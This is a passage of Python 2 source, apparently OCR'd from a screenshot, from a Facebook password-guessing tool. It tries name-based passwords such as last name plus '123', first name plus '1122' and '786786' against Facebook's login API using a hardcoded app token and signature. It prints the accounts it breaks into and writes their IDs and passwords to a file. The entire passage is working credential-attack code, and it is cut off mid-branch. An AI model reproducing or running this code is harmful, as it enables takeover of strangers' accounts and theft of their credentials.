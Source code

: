 				            print '\x1b[1;93m[!] \x1b[1;97mName \x1b[1;97m    : \x1b[1;97m' + b['name']											
				            print '\x1b[1;92m[!] \x1b[1;97mID \x1b[1;97m      : \x1b[1;97m' + user								
				            print '\x1b[1;91m[!] \x1b[1;91mPassword \x1b[1;97m: \x1b[1;97m' + pass2 + '\n'											
				            oks.append(user+pass2)
                                    else:
			                   if 'www.facebook.com' in q["error_msg"]:
				               print '\x1b[1;94m[!] \x1b[1;96m[Checkpoint]'
				               print '\x1b[1;93m[!] \x1b[1;97mName \x1b[1;93m    : \x1b[1;97m' + b['name']
				               print '\x1b[1;92m[!] \x1b[1;97mID \x1b[1;97m      : \x1b[1;97m' + user
				               print '\x1b[1;91m[!] \x1b[1;91mPassword \x1b[1;97m: \x1b[1;97m' + pass2 + '\n'
				               cek = open("out/super_cp.txt", "a")
				               cek.write("ID:" +user+ " Pw:" +pass2+"\n")
				               cek.close()
				               cekpoint.append(user+pass2)								
				           else:											
					       pass3 = b['last_name']+'123'										
					       data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")										
					       q = json.load(data)										
					       if 'access_token' in q:	
						       x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                       z = json.loads(x.text)
						       print '\x1b[1;91m[!] \x1b[1;92m[OK]'								
						       print '\x1b[1;92m[!] \x1b[1;97mName \x1b[1;97m    : \x1b[1;97m' + b['name']									
						       print '\x1b[1;93m[!] \x1b[1;97mID \x1b[1;97m      : \x1b[1;97m' + user							
						       print '\x1b[1;94m[!] \x1b[1;91mPassword \x1b[1;97m: \x1b[1;97m' + pass3 + '\n'									
						       oks.append(user+pass3)
                                               else:
			                               if 'www.facebook.com' in q["error_msg"]:
				                           print '\x1b[1;91m[!] \x1b[1;96m[Checkpoint]'
				                           print '\x1b[1;92m[!] \x1b[1;97mName \x1b[1;97m    : \x1b[1;97m' + b['name']
				                           print '\x1b[1;93m[!] \x1b[1;97mID \x1b[1;97m      : \x1b[1;97m' + user
				                           print '\x1b[1;94m[!] \x1b[1;91mPassword \x1b[1;97m: \x1b[1;97m' + pass3 + '\n'
				                           cek = open("out/super_cp.txt", "a")
				                           cek.write("ID:" +user+ " Pw:" +pass3+"\n")
				                           cek.close()
				                           cekpoint.append(user+pass3)									
					               else:										
						           pass4 = b['first_name'] + '1122'											
			                                   data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			                                   q = json.load(data)												
			                                   if 'access_token' in q:		
						                   x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                   z = json.loads(x.text)
				                                   print '\x1b[1;94m[!] \x1b[1;92m[OK]'											
				                                   print '\x1b[1;93m[!] \x1b[1;97mName \x1b[1;97m    : \x1b[1;97m' + b['name']											
				                                   print '\x1b[1;92m[!] \x1b[1;97mID \x1b[1;97m      : \x1b[1;97m' + user											
				                                   print '\x1b[1;91m[!] \x1b[1;91mPassword \x1b[1;97m: \x1b[1;97m' + pass4 + '\n'											
				                                   oks.append(user+pass4)
                                                           else:
			                                           if 'www.facebook.com' in q["error_msg"]:
				                                       print '\x1b[1;94m[!] \x1b[1;96m[Checkpoint]'
				                                       print '\x1b[1;93m[!] \x1b[1;97mName \x1b[1;97m    : \x1b[1;97m' + b['name']
				                                       print '\x1b[1;92m[!] \x1b[1;97mID \x1b[1;97m      : \x1b[1;97m' + user
				                                       print '\x1b[1;91m[!] \x1b[1;91mPassword \x1b[1;97m: \x1b[1;97m' + pass4 + '\n'
				                                       cek = open("out/super_cp.txt", "a")
				                                       cek.write("ID:" +user+ " Pw:" +pass4+"\n")
				                                       cek.close()
				                                       cekpoint.append(user+pass4)					
					                           else:									
						                       pass5 = '786786'							